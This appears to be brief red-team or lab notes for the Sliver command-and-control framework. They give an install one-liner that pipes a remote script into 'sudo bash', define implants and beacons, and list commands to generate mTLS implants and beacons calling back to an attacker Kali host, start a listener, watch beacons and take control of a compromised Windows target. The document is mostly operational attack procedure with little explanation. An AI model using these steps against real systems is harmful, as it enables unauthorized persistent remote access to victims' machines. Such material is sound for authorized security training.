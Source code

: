 ```
curl https://sliver.sh/install|sudo bash
```
```
sliver
```
-   **Implant** - A generic term for piece of software used to maintain access to an environment or system, generally through the use of command and control (C&C, C2, etc.), this is the code that the attack executes on the target machine as well as maintain access. The term "implant" is often interchangeable with "agent."
-   **Beacon** - May refer to (1) a communication pattern where an implant periodically connects to the C2 server as apposed to using a stateful/real time connection (2) [Cobalt Strike's](https://www.cobaltstrike.com/) primary implant, more often called "CS Beacon." In the context of Sliver, "Beacon" specifically refers to a Sliver implant that implements definition (1) communication style.
Generate an implant
```
generate --mtls $KALI --save /home/havoc/Desktop
```
Generate a beacon
```
generate beacon --mtls $KALI --save /home/havoc/Desktop
```
```
mtls
```
```
beacons watch
```
Transfer and run exe on target
`BEACON  3a5d9594  PROFESSIONAL_SAUSAGE  192.168.19.131:49883  Target  TARGET\Target  windows/amd64`
```
use 3a5d9594
```